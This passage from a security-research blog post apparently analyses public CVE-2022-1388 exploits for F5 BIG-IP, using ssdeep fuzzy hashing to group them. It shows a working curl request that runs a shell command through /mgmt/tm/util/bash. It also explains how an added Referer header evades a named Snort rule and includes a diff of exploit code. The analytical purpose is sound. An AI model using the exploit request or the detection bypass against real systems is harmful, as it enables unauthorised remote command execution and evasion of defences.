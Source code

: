 Referer Variant\\n\\nThe \[Referer Variant\](https://raw.githubusercontent.com/numanturle/CVE-2022-1388/main/bigip-icontrol-rest-rce.yaml) is only notable because it bypasses one of the Snort signatures. This variant is no different than the original Horizon3.ai variant except there’s an added \`Referer\` HTTP Header. Again, it’s unclear what drove this innovation, but we guess that it’s related to a WAF \[CSRF validation\](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses). On the wire, this variant looks like the following:\\n\\n\`\`\`sh\\ncurl -kv -H 'Content-Type: application/json' -H "Host: localhost" -H "Referer: https://10.9.49.191/" -H 'Connection: X-F5-Auth-Token' -H 'X-F5-Auth-Token: authtoken' -H 'Authorization: Basic YWRtaW468J+mng==' -d '{"command": "run", "utilCmdArgs": "-c id"}' https://10.9.49.191/mgmt/tm/util/bash;\\n> POST /mgmt/tm/util/bash HTTP/1.1\\n> Host: localhost\\n> User-Agent: curl/7.68.0\\n> Accept: \*/\*\\n> Content-Type: application/json\\n> Referer: https://10.9.49.191/\\n> Connection: X-F5-Auth-Token\\n> X-F5-Auth-Token: authtoken\\n> Authorization: Basic YWRtaW468J+mng==\\n> Content-Length: 42\\n\`\`\`\\n\\nThe \`Referer\` header shouldn’t impact exploitation, but it’ll allow the attacker to bypass the Emerging Threats Snort 2.9 Rule 2036556. The detection was written to ignore any request containing a \`Referer\` header.\\n\\n\`\`\`py\\ncontent:!"Referer|3a 20|"; http\_header; \\\\n\`\`\`\\n\\nTherefore, bypassing the rule is as simple as including an arbitrary \`Referer\` header.\\n\\nThat concludes the variant analysis, and without any original thought whatsoever, we’ve bypassed the first of three Snort rules. But with more than 50 “unique” exploits, how can they all be distilled into four, frankly, very related variations? Let’s take a deeper look at how these exploits are related.\\n\\n## Comparing GitHub Exploits with SSDeep\\n\\nWhen VulnCheck indexes exploits from GitHub we also store a direct link to the raw exploit code (when possible). For example, the raw link to Horizon3.ai’s exploit code is \[https://raw.githubusercontent.com/horizon3ai/CVE-2022-1388/main/CVE-2022-1388.py\](https://raw.githubusercontent.com/horizon3ai/CVE-2022-1388/main/CVE-2022-1388.py). With the raw links readily available, it’s an easy task to apply \[ssdeep\](https://ssdeep-project.github.io/ssdeep/index.html) to each exploit in order to determine which share code.\\n\\n\`ssdeep\`, for those unfamiliar, is a tool that computes a fuzzy hash over a given file. A standard hash, like sha-1 for example, can only tell us if two files are identical. A fuzzy hash can tell us if two files are similar. For example, \`ssdeep\` computes the following hashes for these two exploits:\\n\\n| Hash | File |\\n| --- | --- |\\n|24:ZCGacygxlWejJ9n3xYt8fHN5mWp1rOVL6L0zwC0syV:ZtJygDVjJ9n3xt/N5LDOVL6LMWV|https://raw.githubusercontent.com/horizon3ai/CVE-2022-1388/main/CVE-2022-1388.py|\\n|24:ZCGacygxlWeCfn3xYt8fHN5mWp1rOVL6L0zwC0syv:ZtJygDVCfn3xt/N5LDOVL6LMWv|https://raw.githubusercontent.com/pauloink/CVE-2022-1388/main/CVE-2022-1388.py|\\n\\nThe computed hashes are (slightly) different, but \`ssdeep\` can tell us that they are related (a score higher 0 indicates similarity):\\n\\n\`\`\`python\\nPython 3.8.10 (default, Mar 13 2023, 10:26:41)\\n\[GCC 9.4.0\] on linux\\nType "help", "copyright", "credits" or "license" for more information.\\n>>> import ssdeep\\n>>> ssdeep.compare("24:ZCGacygxlWejJ9n3xYt8fHN5mWp1rOVL6L0zwC0syV:ZtJygDVjJ9n3xt/N5LDOVL6LMWV", "24:ZCGacygxlWeCfn3xYt8fHN5mWp1rOVL6L0zwC0syv:ZtJygDVCfn3xt/N5LDOVL6LMWv")\\n93\\n\`\`\`\\n\\nDiffing these exploits, we see that they are very similar indeed.\\n\\n\`\`\`diff\\ndiff -u CVE-2022-1388.py CVE-2022-1388.py.1\\n--- CVE-2022-1388.py 2023-04-11 14:45:01.329298751 -0400\\n+++ CVE-2022-1388.py.1 2023-04-11 14:45:12.225289447 -0400\\n@@ -8,7 +8,7 @@\\n url = f'https://{target}/mgmt/tm/util/bash'\\n headers = {\\n 'Host': '127.0.0.1',\\n- 'Authorization': 'Basic YWRtaW46aG9yaXpvbjM=',\\n+ 'Authorization': 'Basic YWRtaW46YW55dGhpbmc=',\\n 'X-F5-Auth-Token': 'asdf', \\n 'Connection': 'X-F5-Auth-Token',\\n 'Content-Type': 'application/json'\\n@@ -28,6 +28,4 @@\\n parser.add\_argument('-c', '--command', help='The command to execute')\\n args = parser.parse\_args()\\n \\n- exploit(args.target, args.command)\\n-\\n-\\n+ exploit(args.target, args.command)\\n\`\`\`\\n\\nThe difference between these two “unique” exploits is a slight change in whitespace and a change of the admin user’s password from “horizon3” to “anything.” We found a lot of this sort of thing when we analyzed the 50+ GitHub exploits. For example, consider this screenshot that shows five exploits side-by-side.\\n\\n!\[Related Exploits\](/blog/new-cve-2022-1388/related-exploits.png){:width="100%"}\\n\\nOutside of their comments and output formatting, these exploits are nearly identical (two of these are “Kind of Works” variants because they removed the \`Host\` header). A normal hash wouldn’t have been able to identify whether these exploits were related, but \`ssdeep\` was able to lump them into two groups. Then we were able to connect them afterward (\`ssdeep\` is not necessarily optimal for these small file sizes). Their hashes follow:\\n\\n| Hash | File |\\n| --- | ---